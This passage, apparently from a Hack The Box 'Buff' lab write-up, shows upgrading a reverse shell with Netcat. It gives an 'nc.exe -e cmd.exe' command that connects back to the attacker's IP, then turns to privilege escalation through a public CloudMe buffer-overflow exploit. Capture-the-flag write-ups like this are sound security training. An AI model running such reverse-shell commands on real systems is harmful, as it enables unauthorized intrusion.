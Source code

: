 Now from our attacking machine, we need to start a Netcat listener. We can start one on port 443 by using the following command.

``` bash
nc -lvnp 443
```

And then from the current reverse shell, run the nc.exe from the uploads directory useing the following command.

``` bash
.\nc.exe -e cmd.exe <YOUR TUNNEL IP> 443
```

Success! This should result in a much better and interactive reverse shell.

![](/assets/images/htb-buff/07_buff_nc_connect.png)

Now that we have a better shell, we should begin looking for a path to privilege escalation.

## Finding PrivEsc
As with any good attempt to escalate privilege, we should start by quickly skimming the file system, starting with the current user profile. When we do this, the first interesting thing that we find is that in the shaun users `Downloads` directory, `c:\Users\shaun\Downloads`, we find a file named `CloudMe_1112.exe`.

If we look around the `Program Files` directories we do not find anything that would lead us to believe that this is an installable executable. However, it may be something that is running as a service or a standalone process. A google search of CloudMe leads to [their website](https://www.cloudme.com/en) where we see that it is some kind of cloud connection tool.

A Google search for `cloudme exploit` returns [this exploit](https://www.exploit-db.com/exploits/48389) as the first result. This appears to be a `Buffer Overflow` exploit for `CloudMe 1.11.2`, based on the name of the executable, it's fair to say that this is likely the same version. The name of the machine also shouts Buffer Overflow... and so it is worth looking into this some more.
